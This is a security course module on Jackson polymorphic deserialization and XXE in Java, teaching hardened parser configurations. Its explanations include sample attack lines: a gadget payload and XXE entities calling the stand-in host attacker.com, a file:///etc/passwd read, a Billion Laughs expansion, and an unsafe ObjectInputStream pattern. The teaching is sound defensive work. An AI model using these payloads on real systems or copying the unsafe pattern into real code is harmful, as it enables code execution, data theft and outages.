

# Module 08: Software and Data Integrity Failures — Jackson Deserialization & XXE Safeguards

Welcome back, class. Today we analyze **Software and Data Integrity Failures (A08:2021)**.

This vulnerability category focuses on code and infrastructure that fail to protect data and execution paths from unauthorized modification. When we consume serialized data streams—such as JSON payloads or XML documents—we instruct the JVM to instantiate runtime objects and resolve external references. If we trust these incoming payloads without validation boundaries, attackers can exploit **Insecure Deserialization** gadget chains or trigger **XML External Entity (XXE)** injections.

Today we will analyze how Jackson polymorphic deserialization leads to remote code execution (RCE), study the mechanics of XML parser exploits, and write secure, hardened parsing handlers in Java.

---

## 1. Academic Lecture: Untrusted Data and Serialization

To understand this vulnerability, we must recognize that serialization transforms complex runtime objects into transportable byte streams or text formats (JSON, XML). Deserialization is the reverse: recreating the object graph in JVM memory.

### 1. Insecure Deserialization & Polymorphic Typing
In standard Jackson configurations, deserialization maps JSON fields to predefined fields of a target Java class. However, applications often use inheritance (polymorphic models). For example, a `PaymentRequest` class might have a property `PaymentMethod` which can be instantiated as `CreditCardPayment` or `PaypalPayment`.
*   **The Vulnerability**: To support polymorphic types, developers sometimes enable dynamic default typing in Jackson (`objectMapper.enableDefaultTyping()`) or use `@JsonTypeInfo(use = Id.CLASS)`. This tells Jackson to read class names directly from the JSON payload (e.g., `["org.springframework.context.support.ClassPathXmlApplicationContext", "http://attacker.com/exploit.xml"]`) and instantiate them.
*   **The Exploit**: An attacker submits a JSON payload specifying a class available on the classpath (a "gadget class") that performs dangerous actions upon initialization or property injection, leading to Remote Code Execution (RCE).

```
JSON Polymorphic Typing Attack Path

[ Attacker JSON Input ] ---> Contains ["org.apache.xalan.xsltc.trax.TemplatesImpl", {...}]
            |
            v
[ Jackson ObjectMapper ] ---> Reads Type information, looks up class in Classpath
            |
            v (Instantiates Gadget Class)
[ JVM Memory Graph ] ---> Triggers TemplatesImpl constructor/methods during deserialization
            |
            v (Executes Payload Bytecode)
[ System Compromise (RCE) ]
```

### 2. XML External Entity (XXE) Injection
XML documents can contain Document Type Definitions (DTDs) that define XML elements and entities.
*   **The Vulnerability**: An XML Entity is a variable placeholder (e.g., `&company;` resolves to "SecureCorp"). An **External Entity** instructs the XML parser to fetch the value from an external URI (e.g., `<!ENTITY xxe SYSTEM "file:///etc/passwd">` or `<!ENTITY xxe SYSTEM "http://attacker.com/leak">`).
*   **The Exploit**: If the parser is configured to resolve external entities, an attacker can submit a malicious XML document. The parser reads local files or executes server-side HTTP requests, returning the contents in the application's XML response or leaking them via out-of-band requests.



---

## 2. Theory vs. Production Trade-offs

### DTD Disablement vs. XML Functionality
*   **Disallowing Doctype Declarations**:
    *   *Pro*: Fully mitigates XXE attacks at the parser level.
    *   *Con*: Completely breaks support for DTD-based XML validation schemas, which are common in legacy SOAP integrations and financial message parsing (like SWIFT XML).
*   **Production Rule**: In modern microservices, prefer JSON over XML. If you must parse XML, configure the parser to disable external DTD resolution while keeping internal validation active.

---

## 3. How to Use: Secure Deserialization & XML Parsing

Let us write compile-grade Java 21 examples showing how to secure Jackson and parse XML safely.

### A. Hardening Jackson Polymorphic Deserialization

Avoid global default typing. If polymorphism is required, configure a `PolymorphicTypeValidator` to explicitly whitelist allowed base classes and packages.

```java
package com.capstone.security.serialization;

import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.jsontype.BasicPolymorphicTypeValidator;
import com.fasterxml.jackson.databind.jsontype.PolymorphicTypeValidator;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class JacksonHardeningConfig {

    @Bean
    public ObjectMapper secureObjectMapper() {
        ObjectMapper mapper = new ObjectMapper();

        // SECURE: Restrict allowed polymorphic types to a specific package whitelist
        PolymorphicTypeValidator validator = BasicPolymorphicTypeValidator.builder()
                .allowIfBaseType("com.capstone.security.dto.payment.") // Allow payment models
                .allowIfBaseType("com.capstone.security.dto.user.")    // Allow user models
                .allowIfSubTypeIsArray()
                .build();

        // Enable typing only for validated target classes matching the filter rules
        mapper.activateDefaultTyping(validator, ObjectMapper.DefaultTyping.NON_FINAL);

        return mapper;
    }
}
```

### B. Safe XML Parsing using DocumentBuilderFactory

Standard XML parsers in Java (like `DocumentBuilderFactory`, `XMLInputFactory`, `SAXParserFactory`) are vulnerable to XXE by default. Here is how to disable the dangerous DTD features:

```java
package com.capstone.security.serialization;

import org.w3c.dom.Document;
import org.xml.sax.InputSource;

import javax.xml.XMLConstants;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.StringReader;

public class SafeXmlParser {

    public static Document parseXml(String xmlContent) throws Exception {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        
        try {
            // SECURE: Disallow DOCTYPE declarations entirely (disables all DTD features)
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);

            // SECURE: If DOCTYPE cannot be disallowed, disable external DTDs and entities
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
            dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);

            // SECURE: Disable entity expansion inside XML schemas
            dbf.setXIncludeAware(false);
            dbf.setExpandEntityReferences(false);

            // Enforce schema validation limits using XMLConstants
            dbf.setAttribute(XMLConstants.ACCESS_EXTERNAL_DTD, "");
            dbf.setAttribute(XMLConstants.ACCESS_EXTERNAL_SCHEMA, "");

        } catch (ParserConfigurationException e) {
            throw new IllegalStateException("Failed to configure secure XML parser features.", e);
        }

        DocumentBuilder builder = dbf.newDocumentBuilder();
        return builder.parse(new InputSource(new StringReader(xmlContent)));
    }
}
```

---

## 4. Common Errors & Pitfalls

### Pitfall 1: Blindly deserializing Java native objects (`.ser` / `ObjectInputStream`)
Native Java serialization is highly vulnerable. If your API accepts raw serialized Java objects and deserializes them:
```java
// DANGER: Insecure deserialization pattern
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
MyObject obj = (MyObject) ois.readObject(); // RCE vulnerability if gadgets exist in classpath
```
*   **Why it fails**: The lookup of classes and resolution occurs *before* any type casting (e.g., to `MyObject`) is performed.
*   **Mitigation**: Avoid native Java serialization entirely. If legacy systems require it, use an **ObjectInputFilter** (introduced in Java 9) to whitelist allowed deserialization classes.

#### Hardened ObjectInputStream configuration:
```java
package com.capstone.security.serialization;

import java.io.IOException;
import java.io.InputStream;
import java.io.ObjectInputFilter;
import java.io.ObjectInputStream;

public class HardenedSerializationParser {

    public static Object safeDeserialize(InputStream is) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(is);

        // SECURE: Allow only specific DTO classes to be deserialized
        ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
            "com.capstone.security.dto.*;java.lang.*;!*"
        );
        ois.setObjectInputFilter(filter);

        return ois.readObject();
    }
}
```

---

## 5. Socratic Review Questions

### Question 1
Explain why checking the cast type after deserialization (e.g., `MyClass obj = (MyClass) ois.readObject()`) does not prevent remote code execution.

#### Answer
During deserialization, `ois.readObject()` reconstructs the object graph from the input stream. To do this, it reads class names from the stream, checks if those classes are on the classpath, instantiates them, and populates their fields. If the class overrides methods like `readObject()`, `readResolve()`, or contains code inside its constructor, that code executes **during** the recreation process. 
The type-cast `(MyClass)` only occurs *after* the entire object graph has been instantiated. By then, the attacker's gadget bytecode has already executed, rendering the type-cast check useless.

### Question 2
What is the "Billion Laughs" attack, and which parser feature mitigates it?

#### Answer
The "Billion Laughs" attack is an XML entity expansion Denial of Service (DoS) attack. An attacker defines nested entities that expand exponentially:
```xml
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
...
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
```
When the parser expands `&lol9;`, it attempts to process $10^9$ (one billion) instances of the string "lol", exhausting JVM memory and crashing the application.
This is mitigated by disabling DOCTYPE declarations (`disallow-doctype-decl = true`) or setting `XMLConstants.FEATURE_SECURE_PROCESSING` to limit entity expansion sizes.

---

## 6. Hands-on Challenge: SAXParser XXE Hardening

### The Challenge
In this challenge, you will secure an XML SAX parser. The default `SAXParser` config is vulnerable to external entity injection and local file leakage.

Your task:
1.  Configure the SAXParserFactory bean configuration.
2.  Add security features to disallow DOCTYPE declarations, external general entities, and external DTDs.

Complete the configuration implementation below:

```java
package com.capstone.security.serialization.challenge;

import org.xml.sax.SAXException;
import javax.xml.parsers.ParserConfigurationException;
import javax.xml.parsers.SAXParserFactory;

public class SaxParserHardeningChallenge {

    public static SAXParserFactory getSecureSaxParserFactory() throws ParserConfigurationException, SAXException {
        SAXParserFactory factory = SAXParserFactory.newInstance();
        
        // TODO: Configure the factory to prevent XXE vulnerabilities.
        // 1. Set feature "http://apache.org/xml/features/disallow-doctype-decl" to true.
        // 2. Set feature "http://xml.org/sax/features/external-general-entities" to false.
        // 3. Set feature "http://xml.org/sax/features/external-parameter-entities" to false.
        // 4. Set feature "http://apache.org/xml/features/nonvalidating/load-external-dtd" to false.
        
        return factory;
    }
}
```

Write down the security settings block. Save the completed challenge class and explain how XXE can lead to Server-Side Request Forgery (SSRF) inside `modules/08-software-data-integrity-failures.md`.
